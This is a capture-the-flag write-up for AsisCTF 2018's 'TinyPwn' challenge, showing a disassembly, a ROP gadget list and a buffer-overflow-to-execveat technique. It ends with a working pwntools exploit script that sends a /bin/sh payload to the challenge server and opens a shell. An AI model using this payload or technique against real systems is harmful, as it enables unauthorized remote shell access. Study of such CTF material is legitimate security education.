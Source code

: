 # TinyPwn AsisCTF Quals 2018

I did this problem at school, so I didn't have ida xD. You'll have to bear with objdump.

Objdumping the binary we get:

```
TinyPwn:     file format elf64-x86-64


Disassembly of section .text:

00000000004000b0 <.text>:
  4000b0:       48 31 c0                xor    %rax,%rax
  4000b3:       48 31 db                xor    %rbx,%rbx
  4000b6:       48 31 c9                xor    %rcx,%rcx
  4000b9:       48 31 d2                xor    %rdx,%rdx
  4000bc:       48 31 ff                xor    %rdi,%rdi
  4000bf:       48 31 f6                xor    %rsi,%rsi
  4000c2:       4d 31 c0                xor    %r8,%r8
  4000c5:       4d 31 c9                xor    %r9,%r9
  4000c8:       4d 31 d2                xor    %r10,%r10
  4000cb:       4d 31 db                xor    %r11,%r11
  4000ce:       4d 31 e4                xor    %r12,%r12
  4000d1:       4d 31 ed                xor    %r13,%r13
  4000d4:       4d 31 f6                xor    %r14,%r14
  4000d7:       4d 31 ff                xor    %r15,%r15
  4000da:       48 31 ed                xor    %rbp,%rbp
  4000dd:       e8 10 00 00 00          callq  0x4000f2
  4000e2:       b8 3c 00 00 00          mov    $0x3c,%eax
  4000e7:       48 31 ff                xor    %rdi,%rdi
  4000ea:       48 31 f6                xor    %rsi,%rsi
  4000ed:       48 31 d2                xor    %rdx,%rdx
  4000f0:       0f 05                   syscall 
  4000f2:       48 81 ec 28 01 00 00    sub    $0x128,%rsp
  4000f9:       48 89 e6                mov    %rsp,%rsi
  4000fc:       ba 48 01 00 00          mov    $0x148,%edx
  400101:       0f 05                   syscall 
  400103:       48 81 c4 28 01 00 00    add    $0x128,%rsp
  40010a:       c3                      retq
```

  It is a tiny binary indeed. It uses syscalls to read 0x148 bytes, then returns. Easy buffer overflow. We quickly find that the padding is 0x128 until the ret address. The problem is how do we get a shell?

  We can use ROPgadget to get a list of gadgets:

  ```Gadgets information
============================================================
0x0000000000400108 : add byte ptr [rax], al ; ret
0x00000000004000ff : add byte ptr [rax], al ; syscall
0x0000000000400104 : add esp, 0x128 ; ret
0x0000000000400103 : add rsp, 0x128 ; ret
0x00000000004000e9 : dec dword ptr [rax + 0x31] ; test byte ptr [rax + 0x31], 0xd2 ; syscall
0x00000000004000fc : mov edx, 0x148 ; syscall
0x00000000004000fa : mov esi, esp ; mov edx, 0x148 ; syscall
0x00000000004000f9 : mov rsi, rsp ; mov edx, 0x148 ; syscall
0x000000000040010a : ret
0x0000000000400106 : sub byte ptr [rcx], al ; add byte ptr [rax], al ; ret
0x00000000004000f0 : syscall
0x00000000004000ec : test byte ptr [rax + 0x31], 0xd2 ; syscall
0x00000000004000e8 : xor edi, edi ; xor rsi, rsi ; xor rdx, rdx ; syscall
0x00000000004000ee : xor edx, edx ; syscall
0x00000000004000eb : xor esi, esi ; xor rdx, rdx ; syscall
0x00000000004000e7 : xor rdi, rdi ; xor rsi, rsi ; xor rdx, rdx ; syscall
0x00000000004000ed : xor rdx, rdx ; syscall
0x00000000004000ea : xor rsi, rsi ; xor rdx, rdx ; syscall
```

We don't have much at our disposal, so my idea was syscall. Looking at the list of syscalls here: ```http://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/``` we see that sys_execve is 0x3b. However, we don't have a pop rax gadget! :(

To get around this, we have to realize that the read syscall sets rax to be the length of the bytes read. However it requires 0x128 bytes to reach the ret address, and 0x128 > 0x3b. So we use stub_execveat instead, with opcode 0x142. For this syscall, rsi is the pointer to the execve file name, which is conveniently our buffer. Debugging this, we also find that we need to zero our rdx, otherwise it would crash, which we have a gadget for at 0x4000ed.

Final attack plan:
1) Make our input string start with /bin/sh\x00
2) Make our input string length 0x142
3) Zero out rdx
4) Syscall and get shell

```python
from pwn import *

r = process("./TinyPwn")
r = remote("159.65.125.233", 6009)

payload = "/bin/sh\x00" + "B"*(0x148-(8*4) - 8)
payload += p64(0x00000000004000ed)
payload += p64(0x400101)
payload += "A"*(0x142-len(payload)-1)

r.sendline(payload)
r.interactive()```

